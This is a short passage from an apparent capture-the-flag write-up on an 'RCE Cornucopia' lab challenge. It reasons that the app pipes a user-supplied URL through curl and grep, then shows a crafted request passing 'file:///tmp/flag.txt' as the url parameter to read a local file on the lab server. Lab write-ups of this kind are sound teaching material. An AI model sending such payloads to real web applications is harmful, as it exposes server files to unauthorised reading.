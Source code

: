 Test run.

```
http://127.0.0.1:8089/index.php?url=example.com&string=coordination&submit=Scan
```

![RCE Cornucopia](/img/rce-cornucopia/rce9-001.png)

## Solution 1 - Web Request

We'll assume the application, like previous challenges, is coded in a very straightforward way using `curl` and `grep`. Something like `curl <URL> | grep <string>` followed by some logic to check whether anything was matched.

Note that `curl` can be used to read fetch a local file.

```
root@kali ~/A/c/09# curl file:///tmp/flag.txt
flag{localPOCflag}
```

Let's try that online, search for 'flag' in the URL `file:///tmp/flag.txt` since we know it will be there.

```
http://127.0.0.1:8089/index.php?url=file%3A%2F%2F%2Ftmp%2Fflag.txt&string=flag&submit=Scan
```
